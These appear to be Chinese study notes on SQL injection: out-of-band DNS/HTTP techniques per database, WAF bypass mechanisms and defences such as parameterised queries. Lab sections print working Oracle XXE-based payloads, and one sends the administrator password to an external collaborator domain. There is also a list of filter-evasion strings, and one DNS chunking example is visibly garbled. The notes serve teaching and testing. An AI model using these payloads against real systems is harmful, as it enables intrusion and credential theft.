你说的 DNS 缓存点是对的。很多场景里，如果重复查询同一个域名，递归解析器或本地缓存可能不会再次向权威 DNS 服务器发起请求。于是 OAST 平台上看不到第二次记录，不代表 payload 没执行。

正确理解是：

```
相同域名第二次不触发记录≠SQL 没执行可能只是 DNS 缓存命中
```

在子域名中加入随机随机字符。每次测试使用唯一 marker，例如时间戳、随机短串、请求编号。

#### （3）Oracle：网络包多，OAST 面最宽

Oracle 的 OAST 面通常比 MySQL 宽，因为 Oracle 内置/可用的网络相关包和 URI 类型更多。 `DBMS_LDAP` 和 `HTTPURITYPE` 都属于这个方向。

##### <1> DBMS_LDAP.init

Oracle 文档说明，`DBMS_LDAP` 包用于让 PL/SQL 程序访问 LDAP 服务器；其中 `init(hostname, portnum)` 会初始化与 LDAP 服务器的会话，并接收 hostname 与端口参数。

抽象样例：

```sql
SELECT DBMS_LDAP.init('<marker>.<oast-domain>', 80)
FROM dual
```

它的机制是：

```
Oracle 执行 DBMS_LDAP.init
↓
尝试连接指定 hostname:port
↓
hostname 需要解析
↓
触发 DNS 查询
↓
若网络允许，可能继续产生 LDAP/TCP 连接
```

这里要注意：  

`port` 写成 `80` 并不意味着这是 HTTP 请求。它仍然是 LDAP 初始化逻辑，只是目标端口可以指定。实际是否建立 TCP 连接取决于网络策略、ACL、数据库版本和权限。

##### <2> HTTPURITYPE

Oracle `HTTPURITYPE` 是 `UriType` 的 HTTP 子类型。Oracle 文档说明它支持 HTTP 协议，底层使用 `UTL_HTTP` 访问 HTTP URL；其 `getClob()` 可以返回 HTTP URL 指向内容的 CLOB。

抽象样例：

```sql
SELECT HTTPURITYPE('http://<marker>.<oast-domain>/').getclob()
FROM dual
```

机制是：

```
构造 HTTPURITYPE
↓
调用 getClob()
↓
Oracle 尝试访问 URL
↓
先 DNS 解析域名
↓
再发起 HTTP 请求
```

这比纯 DNS OAST 更强，因为如果出网 HTTP 允许，你不仅能看到 DNS，还可能看到 HTTP Host、Path、User-Agent 等请求信息。

##### <3> Oracle 的审计重点

Oracle OAST 要重点看：

| 审计点                       | 说明                                            |
| ------------------------- | --------------------------------------------- |
| 是否允许相关包执行                 | `DBMS_LDAP`、`UTL_HTTP`、`HTTPURITYPE` 等权限可能被限制 |
| 网络 ACL                    | 新版本 Oracle 常受网络访问控制影响                         |
| 是否能访问外部 DNS / HTTP / LDAP | 数据库所在网段可能有严格出口控制                              |
| 返回值是否被应用消费                | 有时即使外联发生，SQL 表达式结果仍可能导致应用异常                   |
| 触发协议类型                    | DNS、HTTP、LDAP 观测点不同                           |

Oracle 不是“一个 payload 打到底”，而是“网络能力暴露面多”。审计时要按包、权限、ACL、协议逐层判断。

### 6.5 带数据 OAST 为什么容易翻车

OAST 带数据看起来很顺，但实际上很容易因为 DNS 协议和网络策略失败。

#### （1）DNS 字符集限制

DNS 名称由多个 label 组成。RFC 1035 规定单个 label 长度不超过 63 octets，完整域名长度不超过 255 octets。

所以如果你把查询结果直接拼进子域名，可能出现：

```
空格
@
:
/
_
中文
base64 里的 +
base64 里的 /
base64 里的 =
过长字符串
```

这些都可能导致 DNS 请求无法正常发出或被中间解析器处理异常。

带数据 OAST 需要先做 DNS-safe 编码。常见思路是 hex/base32/base64url，而不是普通 base64。

写 **Base32 或 Hex**，少写普通 Base64。因为普通 Base64 里的 `+`、`/`、`=` 对 DNS label 不友好。

#### （2）长度限制

DNS 限制不是“整个字符串随便塞”。它有两层：

```
单个 label ≤ 63 octets
完整域名 ≤ 255 octets
```

因此：

```
<encoded-data>.<oast-domain>
```

如果 `<encoded-data>` 太长，就必须分片：

```
01.<chunk1>.<o01.<chunk1>.<oast-domain>
02.<chunk2>.<oast-domain>
03.<chunk3>.<oast-domain>ast-domain>02.<chunk2>.<oast-domain>03.<chunk3>.<oast-domain>
```

但分片一多，又会遇到：

- 请求顺序不稳定；
- DNS 缓存干扰；
- 平台记录聚合不完整；
- 长字段需要多次触发；
- 噪声流量变多。

OAST 可用于证明 SQL 表达式执行和出网能力；带数据传输受 DNS 字符、长度、缓存和出口策略限制，稳定性弱于直接回显。

#### （4）出网策略

高安全等级环境里，出网常见几种状态：

| 出网策略              | OAST 结果                      |
| ----------------- | ---------------------------- |
| DNS 可出，HTTP 不可出   | 只能看到 DNS lookup              |
| HTTP 可出，DNS 走内部解析 | 外部平台可能看不到 DNS，但 HTTP 代理可能有记录 |
| 只允许访问白名单域名        | 任意 OAST 域名无效                 |
| 禁止服务器直接出网         | OAST 完全失败                    |
| 走代理               | 数据库函数未必支持代理配置                |
| 内部 DNS 递归器缓存      | 重复 marker 看不到新查询             |

因此 OAST 失败不等于 SQL 注入不存在。它只能说明：

```
当前 payload、当前函数、当前协议、当前网络路径下没有观测到外联。
```

### 6.6 三类数据库对比总结

| 数据库        | 主要 OAST 机制                        | 强依赖                                | 优点           | 常见失败原因                                           |
| ---------- | --------------------------------- | ---------------------------------- | ------------ | ------------------------------------------------ |
| SQL Server | UNC 路径解析、扩展过程、trace 文件函数          | Windows、权限、过程可用性                   | DNS/SMB 触发明显 | 权限不足、云数据库不支持、过程被限制                               |
| MySQL      | `LOAD_FILE()` + Windows UNC       | Windows、FILE 权限、`secure_file_priv` | 机制简单         | Linux 不适用、FILE 权限缺失、`secure_file_priv=NULL/目录限制` |
| Oracle     | `DBMS_LDAP`、`HTTPURITYPE`、URI/网络包 | 包权限、网络 ACL、出网策略                    | 协议面丰富        | ACL 限制、包不可执行、HTTP/DNS 被拦截                        |

#### 实验十一： 通过带外交互进行盲注SQLi



利用TrackingId的Cookie，结合XXE：

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"
1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+
SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>')
,'/l')+FROM+dual--
```

注意这里去掉换行符。

#### 实验十二：盲注 SQL 注入及带外数据泄露



```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"
1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote
+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'
administrator')||'.wff7awwmogzfqpqt3t354yjdv41vpmdb.oastify.com/">
+%25remote%3b]>'),'/l')+FROM+dual--
```

拿到密码



---

## 7. 特殊输入格式与二阶 SQL 注入

### 不同输入格式中的 SQL 注入

SQL 注入不只存在于 URL 参数。只要数据最终进入 SQL 查询，XML、JSON、Cookie、Header 都可能成为输入源。

例如 XML 请求中：

```xml
<storeId>1 UNION SELECT NULL</storeId>
```

如果服务端解析 XML 后将 `storeId` 拼进 SQL，那么注入点并不在 URL，而在 XML 节点内容中。

某些弱过滤只检查原始请求中的关键字，但服务端会先进行 XML 实体解码、URL 解码或 JSON 解析，再传入 SQL。于是编码前后的内容可能不同。

**适用边界：** 编码绕过不是 SQL 注入的本质，只是输入在多层解析中发生了形态变化。真正的漏洞仍然是最终 SQL 构造不安全。

#### 实验十三：利用 XML 编码绕过过滤器进行 SQL 注入



### 二阶 SQL 注入

二阶 SQL 注入是指：应用第一次接收输入时安全地存储了数据，但后续从数据库取出该数据后，又把它不安全地拼接进新的 SQL 查询。

它的关键点是 **危险语义延迟触发**。

示例流程：

```
注册用户名 -> 数据被保存
后台统计 / 修改资料 / 管理查询 -> 取出用户名并拼接进 SQL
后续 SQL 被污染
```

开发者容易误判：“这个值来自数据库，不是用户刚提交的，所以可信。”  
这是二阶注入的典型成因。数据库只能说明数据来源被保存过，不能说明数据内容可信。

**适用边界：** 二阶注入通常不容易通过单次请求发现，需要理解业务流程和数据流转路径。

---

## 8. 防护原则

SQL 注入的防护重点是 **让用户输入永远不能改变 SQL 语法结构**。

SQL 注入防护的核心不是过滤关键字，而是让用户输入无法改变 SQL 结构。OWASP SQL Injection Prevention Cheat Sheet 把参数化查询、存储过程、白名单输入校验、转义作为防护选项，其中参数化查询是主要推荐方式；OWASP Query Parameterization Cheat Sheet 也明确 SQL 注入最好通过参数化查询防止。

```
数据值：使用参数化查询
表名 / 列名 / 排序字段：使用白名单映射
数据库账号：最小权限
错误信息：统一处理，不回显 SQL 细节
日志审计：记录异常查询行为，但不泄露给前端
输入校验：作为业务约束，不作为主要 SQLi 防线
```

### （1）参数化查询 / 预编译语句

优先使用参数化查询：

```
PreparedStatement statement = connection.prepareStatement(
    "SELECT * FROM products WHERE category = ?"
);
statement.setString(1, input);
```

参数化查询会将 SQL 模板和参数值分离，数据库不会把参数内容重新解释为 SQL 语法。

**边界：** 参数化查询适合处理数据值，例如 `WHERE`、`INSERT`、`UPDATE` 中的值。但它不能直接参数化表名、列名、排序方向等 SQL 标识符。

### （2）白名单映射

对于 `ORDER BY`、表名、列名这类无法直接参数化的位置，应使用固定映射：

```
用户输入：price
后端映射：ORDER BY price

用户输入：created
后端映射：ORDER BY created_at
```

不要把用户输入原样拼接到标识符位置。

### （3）最小权限

数据库账号不应使用高权限账户。业务账号只应拥有完成业务所需的最小权限：

- 查询业务表不应拥有修改系统表权限；
- 普通应用账户不应具备危险函数执行权限；
- 读接口不应使用可写账号；
- 不同业务模块尽量隔离权限。

最小权限不能替代参数化，但能降低漏洞被利用后的影响面。

### （4）错误处理

生产环境不应向用户返回详细 SQL 错误、完整查询语句、数据库版本、表结构等信息。错误日志应进入服务端日志系统，而不是直接回显给前端。

### （5）输入校验的定位

输入校验可以减少异常输入进入系统，但它不是 SQL 注入的核心防护。黑名单过滤关键字、替换引号、拦截 `UNION` 这类方案都容易被上下文、编码、数据库方言绕开。

正确顺序应是：

```
参数化查询 / 白名单映射
    ↓
最小权限
    ↓
统一错误处理
    ↓
输入校验作为辅助约束
```

---

## 9. 过滤器与 WAF 绕过机制

SQL 注入绕过过滤器或 WAF 的本质，不是某个 payload 本身“高级”，而是 **WAF、Web 框架、应用代码和数据库解释器对同一输入的解析结果不一致**。

WAF 通常位于应用前面，对 HTTP 请求进行规则匹配、异常评分、协议校验和攻击特征检测。以 OWASP CRS 为例，它是一组面向 ModSecurity 及兼容 WAF 的通用攻击检测规则，覆盖 SQLi、XSS、LFI、RFI、RCE 等常见攻击类型，并通过 anomaly scoring、paranoia level 等机制平衡拦截能力和误报率。

但 WAF 并不等于后端 SQL 解释器。真正的 SQL 注入判断，仍然取决于用户输入是否被应用拼接进 SQL，并被数据库当作查询语法执行。OWASP WSTG 对 SQL 注入测试的定义也是：检查是否可以向应用注入数据，使其在数据库中执行用户可控 SQL 查询。

典型链路如下：

```
原始 HTTP 请求
  ↓
WAF 解码、规范化、规则匹配、异常评分
  ↓
Web Server / 框架解析参数、Cookie、JSON、XML、Header
  ↓
应用代码构造 SQL
  ↓
数据库按自身 SQL 方言解析并执行
```

只要这些环节中任意两层的解析结果不一致，就可能出现：

```
WAF 看起来没有命中规则
但数据库最终执行了危险 SQL 语义
```

---

### 9.1 WAF 绕过的核心分类

WAF 绕过可以按“差异来源”理解

| 类型       | 绕过点            | 最小样例                 | 说明                  |
| -------- | -------------- | -------------------- | ------------------- |
| 编码差异     | WAF 与后端解码结果不同  | `&#x55;NION`         | XML 解析后恢复为 `UNION`  |
| 规范化差异    | 大小写、空白、注释处理不同  | `UN/**/ION`          | 数据库仍可能识别为 SQL token |
| SQL 方言差异 | 不同数据库函数不同      | `SUBSTR()` / `MID()` | 替代固定函数名             |
| 逻辑等价     | 不同表达式语义相同      | `AND 2>1`            | 不依赖固定 `1=1`         |
| 参数解析差异   | WAF 与后端取值不同    | `id=1&id=2`          | 重复参数处理不一致           |
| 复杂格式     | 注入点不在普通 URL 参数 | XML / JSON / Cookie  | WAF 上下文理解不足         |
| 盲注侧信道    | 不直接回显数据        | 条件错误 / 延迟            | 靠响应差异传递信息           |

OWASP 的 SQL Injection Bypassing WAF 资料也把 WAF 绕过归因于请求规范化问题、HPP/HPF、签名规则绕过、盲注和应用逻辑差异等方向。

---

### 9.2 编码与多层解码

编码绕过的关键是：**WAF 检测的不是数据库最终看到的内容**。

在复杂请求中，输入可能经历多轮转换：

```
1. 输入从哪里进入？
   URL 参数 / POST 表单 / Cookie / Header / JSON / XML / 路径参数

2. WAF 检查的是哪一层？
   原始请求 / 解码后参数 / 请求体 / Header / Cookie / JSON 字段 / XML 节点

3. 后端实际使用的是哪个值？
   第一个参数 / 最后一个参数 / 数组 / 拼接后的字符串 / 解析后的对象字段

4. 输入最终进入什么 SQL 上下文？
   字符串值 / 数字值 / ORDER BY / LIMIT / 表名 / 列名 / WHERE 条件

5. 数据库最终是否解析出 SQL 语义？
   如果只是普通字符串，绕过 WAF 也没有意义。
```

这条链路能避免一个常见误区：**WAF 放行不等于 SQL 注入成立，WAF 拦截也不等于后端没有漏洞。**  

真正的判断标准仍然是输入是否进入 SQL 查询，并改变了数据库执行语义。OWASP WSTG 对 SQLi 测试的定义也是围绕“应用是否执行用户可控 SQL 查询”展开，而不是围绕某个固定 payload。

如果 WAF 只检查原始内容，或者只完成一部分解码，而后端解析器继续恢复字符，就可能出现检测盲区。

#### 机制样例

```xml
<storeId>1 &#x55;NION SELECT NULL</storeId>
```

这里 `&#x55;` 是 XML 实体编码，XML 解析后会恢复为 `U`。PortSwigger 的 SQL injection with filter bypass via XML encoding Lab 就是库存检查功能把 XML 字段传入 SQL 查询，明显 SQLi 特征被 WAF 拦截，但 XML 编码后的内容在服务端解析后进入 SQL。

**适用边界：**  

编码本身不会制造 SQL 注入。只有当解码后的内容进入不安全 SQL 拼接，绕过才有意义。如果后端使用参数化查询，编码后的内容仍然只是普通字符串。

**防护重点：**

```
WAF 层：统一解码、规范化后再检测
应用层：不要拼接 SQL
数据库层：使用参数化查询
```

---

### 9.3 大小写、空白、注释与 Token 拆分

基础过滤器经常匹配连续字符串，例如：

```sql
UNION SELECT
ORDER BY
OR 1=1
```

但数据库解析 SQL 时看的是 token，不是简单字符串。SQL 关键字之间可能允许大小写变化、空白、换行或注释。

#### 机制样例

```sql
UN/**/ION SEL/**/ECT
```

这个样例说明的是：

```
WAF 可能没有命中连续字符串 "UNION SELECT"
数据库解析时仍可能还原出等价 SQL 语义
```

**适用边界：**  

不同数据库对注释位置、关键字拆分、换行和空白的容忍程度不同。某些写法在 MySQL 可用，不代表 PostgreSQL、Oracle、SQL Server 中也成立。

**笔记重点：**  

这类绕过不是“注释越多越高级”，而是利用了 **WAF 字符串匹配与数据库词法解析之间的差异**。

---

### 9.4 函数替换与数据库方言差异

WAF 规则常会关注典型函数名，例如：

```
SUBSTRING
ASCII
SLEEP
BENCHMARK
```

但不同数据库中，常存在语义相近的函数或表达方式。OWASP 的 WAF 绕过资料明确提到，可以通过函数同义替换影响基于签名的检测，例如 `substring()` 与 `mid()`、`substr()`，以及 `ascii()` 与 `hex()`、`bin()` 等方向。

#### 机制样例

| 目的    | 常见写法          | 替代方向                           |
| ----- | ------------- | ------------------------------ |
| 截取字符串 | `SUBSTRING()` | `SUBSTR()` / `MID()`           |
| 字符编码  | `ASCII()`     | `HEX()` / `ORD()`              |
| 字符串拼接 | `CONCAT()`    | `                              |
| 时间延迟  | `SLEEP()`     | `pg_sleep()` / `WAITFOR DELAY` |
| 类型转换  | `CAST()`      | `CONVERT()`，取决于数据库             |

这类绕过的核心不是“哪个函数更隐蔽”，而是：

```
WAF 拦截的是有限签名
数据库支持的是一组等价语义
```

**适用边界：**  

函数替换必须匹配真实数据库方言。payload 被拦截不一定代表没有漏洞；payload 不生效也不一定代表防护有效，可能只是数据库语法不匹配。

---

### 9.5 逻辑等价表达

很多规则会特别关注：

```sql
OR 1=1
```

但 SQL 中表达恒真、恒假、比较、范围、空值判断的方式很多。OWASP WAF 绕过资料中也列出过大量逻辑等价请求形式，用来说明固定签名无法覆盖所有 SQL 语义表达。

#### 机制样例

```sql
AND 2>1
AND 'a'='a'
AND 5 IS NOT NULL
```

这些样例的作用是说明：

```
WAF 如果只匹配 1=1，就可能漏掉其他等价条件
数据库判断的是表达式真假，不关心你是否用了固定写法
```

**适用边界：**  

逻辑等价表达仍然需要进入正确 SQL 上下文。字符串上下文、数字上下文、排序上下文中的可用形式不同。

---

### 9.6 HTTP 参数污染与参数解析差异

HTTP 参数污染是指请求中出现多个同名参数，不同组件对它们的处理方式不一致。

#### 机制样例

```http
GET /item?id=1&id=2 HTTP/1.1
```

可能出现：

| 组件     | 可能行为        |
| ------ | ----------- |
| WAF    | 只检查第一个 `id` |
| Web 框架 | 使用最后一个 `id` |
| 应用代码   | 合并为数组       |
| 中间件    | 拼接为字符串      |

OWASP WSTG 对 HTTP Parameter Pollution 的说明是：当同名参数出现多次时，应用可能以意外方式解释这些值；当前 HTTP 标准并没有规定多个同名参数必须如何处理，因此不同组件可能产生不同结果。

**关键点：**

```
WAF 检测的参数值
≠
应用最终使用的参数值
```

**适用边界：**  

参数污染不是 SQL 注入本身。它只是在过滤器和应用之间制造解析差异。最终漏洞仍然取决于应用是否把最终参数值拼接进 SQL。

---

### 9.7 HTTP 参数分片

HTTP 参数分片可以理解为：把 SQL 语义拆到多个参数里，使单个参数看起来不完整，但应用层拼接后重新形成完整语义。

#### 抽象样例

```
a=1 UNION/*
b=*/SELECT NULL
```

如果 WAF 分别检查 `a` 和 `b`，可能看不到完整 SQL 结构；但应用如果把两个参数拼接到同一条 SQL 中，就可能恢复出危险语义。OWASP 的 WAF 绕过资料中也把 HPF 作为一类典型场景：单个请求片段可能不完整，但最终 SQL 请求被应用组合出来。

**适用边界：**  

HPF 强依赖应用层拼接逻辑。不是所有多参数请求都能形成分片绕过，必须存在“多个参数共同进入同一 SQL 片段”的业务代码。

**防护重点：**

```
不要把多个用户参数直接拼接进 SQL 结构
对每个参数做类型约束
SQL 仍使用参数化或白名单映射
```

---

### 9.8 JSON / XML / Cookie / Header 中的注入点

SQL 注入点不一定出现在 URL 查询参数中。很多应用会从以下位置读取数据：

```
Cookie
HTTP Header
JSON 字段
XML 节点
路径参数
排序字段
分页参数
```

例如：

```
Cookie: TrackingId=...
```

```json
{
  "sort": "price",
  "storeId": "1"
}
```

```xml
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

如果后端取出这些值后拼接 SQL，就可能形成注入点。PortSwigger 的 XML 编码 Lab 就说明，注入点可以藏在 XML 请求体的节点内，而不是普通 URL 参数。

**笔记重点：**

```
不要只盯着 URL 参数。
SQLi 输入点可能来自任何进入数据库查询的数据源。
```

**适用边界：**  

WAF 对 URL 参数的检测能力，不代表它能完整理解 JSON/XML 嵌套结构、Cookie 语义或 Header 业务含义。

---

### 9.9 盲注侧信道与 WAF 检测弱点

盲注对 WAF 的压力在于：它不一定直接返回数据，也不一定包含明显的 `UNION SELECT`。信息可以通过页面差异、错误差异、时间差异或带外交互传递。

OWASP WSTG 把 SQL 注入利用技术分为 UNION、Boolean、Error-based、Out-of-band、Time delay 等类型，说明 SQLi 不只依赖显式回显。

#### 机制样例

```sql
CASE WHEN 条件成立 THEN 延迟 ELSE 正常 END
```

该样例说明的是：

```
请求本身未必直接返回数据库内容
但响应时间差异可以携带真假信息
```

**适用边界：**  

时间侧信道受网络波动、服务端负载、缓存、异步执行影响。不能因为一次响应变慢就直接判断漏洞成立，需要对照请求和多次验证。

---

### 9.10 WAF 绕过与真实修复

WAF 绕过只能说明外层检测存在盲区，不代表漏洞根因发生在 WAF。SQL 注入的根因仍然是：

```
用户输入被拼接进 SQL，并改变了查询语义
```

OWASP SQL Injection Prevention Cheat Sheet 明确指出，SQL 注入通常发生在动态查询使用字符串拼接和用户输入时；避免 SQLi 的核心是停止使用字符串拼接动态查询，并防止恶意 SQL 输入进入执行查询。

更可靠的防护链路是：

```
数据值：参数化查询 / Prepared Statement
表名、列名、排序方向：白名单映射
数据库权限：最小权限
错误信息：统一处理，不回显 SQL 细节
WAF / RASP / 日志：补充检测与告警
```

OWASP Query Parameterization Cheat Sheet 也明确指出，SQL 注入最好通过参数化查询防止，并强调参数化应在服务端完成。

---

### 9.11 Payload 对照表

| 绕过机制     | 最小样例                       | 说明              |
| -------- | -------------------------- | --------------- |
| XML 实体编码 | `&#x55;NION`               | 服务端 XML 解析后恢复字符 |
| 注释拆分     | `UN/**/ION`                | 绕过连续关键字匹配       |
| 大小写变化    | `UnIoN SeLeCt`             | 依赖 WAF 是否统一大小写  |
| 函数替换     | `SUBSTR()` / `MID()`       | 同义函数绕过固定函数名规则   |
| 逻辑等价     | `AND 2>1`                  | 不依赖固定 `1=1`     |
| 参数污染     | `id=1&id=2`                | WAF 与后端参数取值可能不同 |
| 参数分片     | `a=UNION/*&b=*/SELECT`     | 应用拼接后恢复语义       |
| 复杂格式     | XML / JSON / Cookie        | 注入点不一定在 URL 参数  |
| 时间侧信道    | `CASE WHEN ... THEN delay` | 用响应时间传递真假       |

## 10. 测试记录模板

```
输入位置：
- 例如 Cookie / XML 节点 / JSON 字段 / 查询参数

WAF 现象：
- 明显 SQLi 关键字被拦截
- 编码、大小写、注释拆分、参数差异后是否仍被拦截

后端现象：
- 页面内容变化
- 报错差异
- 响应时间差异
- 是否触发服务端 SQL 行为

解析差异：
- WAF 检测的是原始内容还是解码后内容
- 后端是否二次解码
- 是否存在重复参数取值差异
- 是否存在 JSON/XML 解析后的字段注入

SQL 上下文：
- 字符串上下文
- 数字上下文
- 排序字段
- 表名 / 列名
- 盲注条件

根因判断：
- 是否仍然是后端不安全拼接 SQL
- 是否可以通过参数化查询或白名单映射修复

防护建议：
- 参数化查询
- 标识符白名单
- 统一解码与规范化
- WAF 规则调优
- 日志监控与告警
```
